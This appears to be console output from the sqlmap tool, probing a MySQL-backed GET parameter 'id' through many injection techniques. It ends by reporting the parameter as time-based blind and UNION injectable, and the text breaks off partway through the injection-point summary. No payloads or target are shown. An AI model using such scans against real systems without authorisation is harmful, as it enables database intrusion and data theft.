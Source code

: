 ```txt
[13:38:32] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:38:32] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:38:32] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:38:32] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:38:32] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:38:32] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:38:32] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:38:32] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:38:32] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[13:38:32] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:38:32] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:38:32] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:38:32] [INFO] testing 'Generic inline queries'
[13:38:32] [INFO] testing 'MySQL inline queries'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:38:32] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[13:38:32] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[13:38:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:38:43] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:38:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:38:43] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:38:43] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[13:38:43] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:38:43] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[13:38:43] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[13:38:43] [INFO] testing 'MySQL UNION query (76) - 1 to 20 columns'
[13:38:43] [INFO] testing 'MySQL UNION query (76) - 21 to 40 columns'
[13:38:43] [INFO] testing 'MySQL UNION query (76) - 41 to 60 columns'
[13:38:43] [INFO] testing 'MySQL UNION query (76) - 61 to 80 columns'
[13:38:44] [INFO] testing 'MySQL UNION query (76) - 81 to 100 columns'
[13:38:44] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 235 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```